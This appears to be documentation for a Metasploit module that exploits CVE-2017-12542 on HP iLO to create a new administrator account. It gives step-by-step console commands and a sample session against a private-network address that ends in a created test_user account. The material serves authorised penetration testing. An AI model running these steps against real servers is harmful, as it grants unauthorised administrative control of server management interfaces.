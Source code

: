 This module exploits the CVE-2017-12542 for authentication bypass on HP iLO, which is 100% stable when exploited this way, to create an arbitrary administrator account.

## Verification Steps

1. Start `msfconsole`
2. `use auxiliary/admin/hp/hp_ilo_create_admin_account`
3. Set `RHOST`
4. run `check` to check if remote host is vulnerable (module tries to list accounts using the REST API)
5. Set `USERNAME` and `PASSWORD` to specify a new administrator account credentials
6. run `run` to actually create the account on the iLO

## Options

### USERNAME

  The username of the new administrator account. Defaults to a random string.

### PASSWORD

  The password of the new administrator account. Defaults to a random string.

## Scenarios

### New administrator account creation

```
msf > use auxiliary/admin/hp/hp_ilo_create_admin_account 
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > set RHOST 192.168.42.78
RHOST => 192.168.42.78
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > check
[+] 192.168.42.78:443 The target is vulnerable.
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > set USERNAME test_user
USERNAME => test_user
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > set PASSWORD test_password
PASSWORD => test_password
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > run

[*] Trying to create account test_user...
[+] Account test_user/test_password created successfully.
[*] Auxiliary module execution completed
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > 
```
